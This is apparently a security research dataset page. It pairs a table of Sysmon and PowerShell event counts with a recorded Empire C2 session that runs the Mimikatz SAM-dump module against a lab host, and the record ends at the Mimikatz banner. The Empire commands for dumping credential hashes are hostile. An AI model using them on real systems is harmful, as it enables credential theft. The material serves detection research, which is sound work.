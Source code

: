 | Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |              79 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              67 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              31 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |               6 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               2 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |            3774 |

## Attacker Activity

```
(Empire: TKV35P8X) > usemodule credentials/mimikatz/sam*
(Empire: powershell/credentials/mimikatz/sam) > info

              Name: Invoke-Mimikatz SAM dump
            Module: powershell/credentials/mimikatz/sam
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @JosephBialek
  @gentilkiwi

Description:
  Runs PowerSploit's Invoke-Mimikatz function to extract
  hashes from the Security Account Managers (SAM) database.

Comments:
  http://clymb3r.wordpress.com/ http://blog.gentilkiwi.com htt
  ps://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#ls
  a

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        TKV35P8X                  Agent to run module on.                 

(Empire: powershell/credentials/mimikatz/sam) > execute
[*] Tasked TKV35P8X to run TASK_CMD_JOB
[*] Agent TKV35P8X tasked with task ID 19
[*] Tasked agent TKV35P8X to run module powershell/credentials/mimikatz/sam
(Empire: powershell/credentials/mimikatz/sam) > Job started: 4CDAY8
Hostname: HR001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
```